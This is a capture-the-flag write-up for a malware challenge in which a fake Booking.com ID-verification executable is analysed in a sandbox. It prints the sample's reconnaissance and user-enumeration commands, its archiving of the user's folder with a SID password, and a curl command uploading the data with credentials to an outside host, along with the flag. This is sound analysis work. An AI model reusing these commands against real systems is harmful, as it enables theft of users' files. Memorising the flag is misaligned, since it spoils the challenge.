

# My Hawaii Vacation - Day 25
**Category:** Malware
**Author:**  [John Hammond](https://www.youtube.com/@_JohnHammond) 

Oh jeeeez... I was on Booking.com trying to reserve my Hawaii vacation.

Once I tried verifying my ID, suddenly I got all these emails saying that my password was changed for a ton of different websites!! What is happening!?!

I had a flag.txt on my desktop, but that's probably not important...

Anyway, I still can't even finish booking my flight to Hawaii!! Here is the site I was on... can you get this thing to work!??!

## Challenge Prompt 

Oh jeeeez... I was on Booking.com trying to reserve my Hawaii vacation.

Once I tried verifying my ID, suddenly I got all these emails saying that my password was changed for a ton of different websites!! What is happening!?!

I had a flag.txt on my desktop, but that's probably not important...

Anyway, I still can't even finish booking my flight to Hawaii!! Here is the site I was on... can you get this thing to work!??!

## Solution

Visiting the challenge website presents a form that, once filled out, downloads a suspicious file named: `Booking - ID Verification.exe` 

Running `file` on it shows:
`PE32 executable for MS Windows 4.00 (console), Intel i386, 3 sections` 

To analyze, I uploaded it to any.run, a malware sandbox that provides dynamic behavioral analysis. Can view the report at https://app.any.run/tasks/396a4586-e937-4ee5-aca6-e39e692c5588  

This file executes a series of reconnaissance and file-handling commands: 
```
tasklist /v
wmic computersystem get manufacturer,model
systeminfo
wmic OS get TotalVisibleMemorySize /value
```

Creates a temp directory with:  
```
if not exist "C:\Users\admin\AppData\Local\Temp\5961ed58875d3e59" mkdir "..."
```

Downloads 7-zip:  
```powershell 
curl  -fL -sS --connect-timeout 30 -o  "https://7-zip.org/a/7zr.exe"
```

User account enumeration command:
```powershell 
powershell -NoProfile -Command "Get-CimInstance -ClassName Win32_UserAccount | Where-Object { Test-Path (Join-Path -Path 'C:\Users' -ChildPath $_.Name) } | Select-Object Name,SID | Format-List
```

That reveals local accounts:
`WDAGUtilityAccount, Administrator, DefaultAccount, admin, Guest`

It also logs the current user's SID and saves it to a .log file
```powershell 
powershell.exe -NoProfile -Command "(Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\S-1-5-21-1693682860-607145093-2874071422-1001').Sid > C:\Users\admin\AppData\Local\Temp\5961ed58875d3e59\DESKTOP-JGLLJLD_admin.log"
```

Then checks if `curl` is available:
```powershell
curl --version >nul 2>&1 && echo OK || echo NO
```

Then it exfiltrates data using an authenticated uploads:
```powershell
curl -u "prometheus:PA4tqS5NHFpkQwumsd3D92cb" -F "file=@DESKTOP-JGLLJLD_admin.log" "https://d628ae8a.proxy.coursestack.com/..."
```

Accessing that same endpoint with the credentials (**prometheus:PA4tqS5NHFpkQwumsd3D92cb**) reveals a file repository interface containing uploaded files.


The `.log` file contained a list of bytes:
```
1
5
0
0
...
```

The ZIP file was password protected but could still inspect the file/folder layout and found flag.txt under the desktop folder.

Used this command to compresses files with a password that is the SID
```powershell
"C:\Users\admin\AppData\Local\Temp\5961ed58875d3e59\aecc49d847c34869.exe"  a -p"S-1-5-21-1693682860-607145093-2874071422-1001" "C:\Users\admin\AppData\Local\Temp\5961ed58875d3e59\DESKTOP-JGLLJLD_admin.mp3" "C:\Users\\admin\\*
```

From the .log file we can decode the SID using Windows' byte structure for SIDs using this python script
```python
raw = [1,5,0,0,0,0,0,5,21,0,0,0,18,239,154,226,242,155,126,245,147,116,180,120,244,1,0,0]
def bytes_to_sid(b):
    rev = b[0]
    sub_count = b[1]
    ident_auth = int.from_bytes(bytes(b[2:8]), byteorder='big')
    subs = []
    idx = 8
    for i in range(sub_count):
        subs.append(int.from_bytes(bytes(b[idx:idx+4]), byteorder='little'))
        idx += 4
    return f"S-{rev}-{ident_auth}-" + "-".join(str(s) for s in subs)
print(bytes_to_sid(raw))
``` 

That gives the password of `S-1-5-21-3801804562-4118715378-2025092243-500`

Used this to extract the contents and view the flag.txt file with a flag of `flag{0a741a06d3b8227f75773e3195e1d641}` 
